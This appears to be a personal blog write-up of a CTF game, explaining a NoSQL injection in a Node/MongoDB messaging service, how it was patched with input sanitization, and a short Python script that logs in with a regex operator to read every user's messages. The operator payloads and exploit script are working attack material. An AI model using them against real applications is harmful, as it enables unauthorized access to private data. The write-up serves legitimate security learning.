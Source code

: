 ```yaml
---
title: "Report of the BambiCTF of ENOFLAG"
date: 2021-04-17T20:42:39
tags: [ctf, hacking, tu-berlin]
categories: [Hacking]
slug: first-ctf-at-tu-berlin-bambi
authors:
  - DanielHabenicht
comments: true
---
```


This was my first CTF and I will try to explain a vulnerability I fixed and exploited.

<!-- more -->

## Setup

During the CTF I [connected to the server with VSCode](https://code.visualstudio.com/docs/remote/ssh), which meant I had instant access to all files and could edit them without changing between multiple ssh windows with `nano` editors.

Also the extensions:

- [Docker](https://marketplace.visualstudio.com/items?itemName=ms-azuretools.vscode-docker):
  For always having an eye on your services, easy access to logs and one-click terminals to your containers.
- [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client):
  For writing simple HTTP Requests in a file format. (see below)
- [Python](https://marketplace.visualstudio.com/items?itemName=ms-python.python)
  For writing the exploit in a simple jupyter notebook.

allowed for a hassle free search for vulnerabilities.

## Stonksexchange Vulnerability

[Here you can find the vulnerable service to try for yourself.](https://github.com/ldruschk/bambi-service-stonksexchange).

The service is a simple node application which allows exchange of messages for registered/loggedin users:

![image](2021-04-17-picture1.png)

First I tried a simple XSS attack but was unsuccessful. Then it came to my mind that it might be some kind of injection attack as the service had a database.
After having a look at the files I noticed that user input was passed to the database without sanitizing it:

```javascript
// /routes/index.js
router.post("/register", function (req, res, next) {
  if (!req.body.username || !req.body.password) {
    res.status(400).send("Missing username or password");
    return;
  }
  var db = req.app.locals.db;
  /*
   * Notice the findOne() function below which
   * gets the data directly from the request body
   */
  db.collection("users")
    .findOne({ username: req.body.username })
    .then((results) => {
      if (results) {
        res.status(400).send("Username already in use");
        return;
      }
      argon2.hash(req.body.password).then((hash) => {
        db.collection("users")
          .insertOne({ username: req.body.username, password: hash })
          .then((results) => {
            req.session.user = req.body.username;
            res.redirect("/");
          });
      });
    });
});
```

Trying the Endpoint directly confirms the suspicion. [MongoDB Operators](https://docs.mongodb.com/manual/reference/operator/query/) are directly executable.

```HTTP
# This Request always returns "Username already in use" because the query "{"$ne": null}" returns the first user
# which names is not null (which is always the first user).
POST http://localhost:8199/register HTTP/1.1
content-type: application/json

{
  "username": {"$ne": null},
  "password": "$#@Call4Code"
}
```

This holds true for multiple functions and googling the words [`mongodb` `findOne`, `vulnerability`](https://www.google.com/search?q=mongodb+findone+vulnerability) leads to possible NoSQL injections.
So how to fix it? - [Stackoverflow is your friend](https://stackoverflow.com/questions/30585213/do-i-need-to-sanitize-user-input-before-inserting-in-mongodb-mongodbnode-js-co).
I didn't use the package recommended there, but instead used [express-mongo-sanitize](https://www.npmjs.com/package/express-mongo-sanitize). Installing it and adding the following two lines fixed the problem.

```javascript
// app.js

/**
 * Adding the following line to load the sanitizer
 */
const mongoSanitize = require("express-mongo-sanitize");

// ...

app.use(logger("dev"));
app.use(express.json());
app.use(express.urlencoded({ extended: false }));

/**
 * Use the sanitizer.
 */
app.use(mongoSanitize());
app.use(cookieParser());
```

Trying the endpoints again leads to a new user `{"$ne": null}`. :)

## Stonksexchange Exploit

Now that we know that the endpoints `/register`, `/login` and `/messages` are vulnerable we have to look for the flags.

> Notice that you won't have any flags locally because there is no server putting them there!

Looking into the database we can see messages with flags. But how to retrieve them?

![image](2021-04-17-picture2.png)

Having a look at the `/messages` endpoint we can see that `req.session.user` is used without sanitizing it, which means if we can put an Operator like `{"$regex": "."}` there (which matches any character and thus any user), we can retrieve the first 50 messages of the database.

```javascript
router.get("/messages", function (req, res, next) {
  if (!req.session.user) {
    res.status(403).send("Not logged in");
    return;
  }
  var db = req.app.locals.db;
  /**
   * Notice that req.session.user is passed without sanitizing it
   */
  db.collection("messages")
    .find({ username: req.session.user }, { sort: { $natural: -1 } })
    .limit(50)
    .toArray((err, results) => {
      if (err) {
        res.status(500).send("Internal server error");
        return;
      }
      res.locals.messages = results;
      res.render("messages", { title: "Messages" });
    });
});
```

Because `user` is read from the `session` we have to "login" with the query we want to execute first.

```javascript
router.post("/login", function (req, res) {
  if (!req.body.username || !req.body.password) {
    res.status(400).send("Missing username or password");
    return;
  }
  var db = req.app.locals.db;
  /**
   * The first user matching the username is returned,
   * if the username is a query like {"$regex": "."} we have to consider the sort function.
   */
  db.collection("users")
    .findOne({ username: req.body.username }, { sort: { $natural: -1 } })
    .then((results) => {
      if (!results) {
        res.status(400).send("Invalid username or password");
        return;
      }
      argon2.verify(results.password, req.body.password).then((result) => {
        if (!result) {
          res.status(400).send("Invalid username or password");
          return;
        }
        req.session.user = req.body.username;
        res.redirect("/");
      });
    });
});
```

Viewing the `/login` enpoint we can see that the first user matching the query will be returned. As we want the username to be `{"$regex": "."}` we have to consider the ([natural](https://docs.mongodb.com/v4.2/reference/glossary/#term-natural-order)) sort order.

![image](2021-04-17-picture3.png)

In this case `findOne` will always return the last created user. For a successful login we have to know the password of the user. What better way to just create one?

Lets put it together in a python script:

```python
import requests
base = "http://localhost:8199"

# Prepare the exploit by creating a user with a password we know
prepare = requests.Session()
register = prepare.post(base + '/register', json={ 'username': "sdfsdf", "password": "masterpass" })
# This status code should be 200
print(register.status_code)

# Create the exploit Session
exploit = requests.Session()
# Login with the query we want to execute
register = exploit.post(base + '/login', json={ 'username': {"$regex": "."}, "password": "masterpass" })
# This status code should be 200
print(register.status_code)

# Get all messages
messages = exploit.get(base + "/messages")
print(messages.content)
```

> During the CTF new users where created from other people exploiting the service, which meant that in order to login with all matching regex a new user had to be created each time.

Thanks to [Enoflag](http://enoflag.de/) for hosting this event!

